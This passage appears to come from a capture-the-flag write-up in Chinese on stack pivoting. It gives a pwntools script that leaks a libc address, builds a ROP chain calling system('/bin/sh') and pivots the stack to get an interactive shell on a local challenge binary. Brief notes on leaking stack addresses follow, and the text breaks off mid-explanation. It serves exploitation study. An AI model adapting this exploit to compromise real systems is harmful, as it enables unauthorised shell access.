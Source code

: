 ```bash
from pwn import *
context.update(os='linux', arch='amd64', log_level='debug')
binary = './pwn'
elf = ELF(binary)
libc = ELF('./libc.so.6')
debug = 0
if debug:
    libc = elf.libc
    p = process(binary)
else:
    host = '127.0.0.1'
    port = '1145'
p = remote(host, port)
ret = 0x000000000040101a
pop_rdi_ret = 0x0000000000401333
leave_ret = 0x00000000004012AA

p.sendafter("your name:\n", b'a'*8)
p.recvuntil('a'*8)
libc.address = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - libc.sym["_IO_file_jumps"]
binsh = next(libc.search(b"/bin/sh"))
success("libc-->" + hex(libc.address))

p.recvuntil("I have a small gift for you: ")
rop_addr = int(p.recv(14), 16) + 8
success("rop_addr-->" + hex(rop_addr))
p.recvuntil("more infomation plz:\n")

pay = p64(pop_rdi_ret) + p64(binsh) + p64(libc.sym["system"])
pay = pay.ljust(0x50, b'\x00')
pay += p64(rop_addr - 8)
pay += p64(leave_ret)

p.send(pay)
p.interactive()
```

总结：

- 栈的地址是随机的，因为我们默认`ASLR`在远端服务器上默认开启；所以如果想要获取栈地址，并且看到有`buf`直接与`ebp`相连的时候，可以直接通过`send()`方法将字符串直接输入满，同时因为`send()`方法没有`\n`换行符，输出是会将后面的`ebp`的值一同输出；获取到`ebp`的值就可以获取到栈中任意变量的地址了
- 栈中也可以直接构造字符串，就像是`p32(buf_s+0xc) + b"/bin/sh\x00"`这样，写个带一点偏移的地址就可以
- 栈迁移就是针对将ROP多的部分放在其他地方（不止在栈中），至少需要可以覆盖到返回地址

当使用了栈迁移的时候，栈内存如下：
